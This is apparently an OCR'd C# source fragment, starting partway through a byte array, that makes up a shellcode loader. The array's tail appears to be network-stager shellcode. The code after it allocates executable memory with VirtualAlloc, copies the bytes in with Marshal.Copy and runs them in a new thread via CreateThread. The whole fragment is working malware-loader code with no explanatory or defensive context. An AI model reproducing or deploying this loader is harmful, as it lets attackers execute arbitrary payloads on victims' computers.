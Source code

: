```cs
0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,
0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,
0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,
0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40,
0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,0xd5,
0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,
0xff,0xff,0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,
0xff,0xe7,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 };

UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode .Length,

MEM_COMMIT, PAGE_EXECUTE_READWRITE);

Marshal.Copy(shellcode , 0, (IntPtr)(funcAddr), shellcode .Length);

IntPtr hThread = IntPtr.Zero;

UInt32 threadId = 0;

IntPtr pinfo = IntPtr.Zero;

hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);

WaitForSingleObject(hThread, 0xFFFFFFFF);

}

private static UInt32 MEM_COMMIT = 0x1000;

private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

[DllImport("kernel32")]

private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

[DllImport("kernel32")]

private static extern bool VirtualFree(IntPtr lpAddress,

UInt32 dwSize, UInt32 dwFreeType);

[DllImport("kernel32")]

private static extern IntPtr CreateThread(

UInt32 lpThreadAttributes,

UInt32 dwStackSize,

UInt32 lpStartAddress,

IntPtr param,

UInt32 dwCreationFlags,

ref UInt32 lpThreadId

);

[DllImport("kernel32")]

private static extern bool CloseHandle(IntPtr handle);
```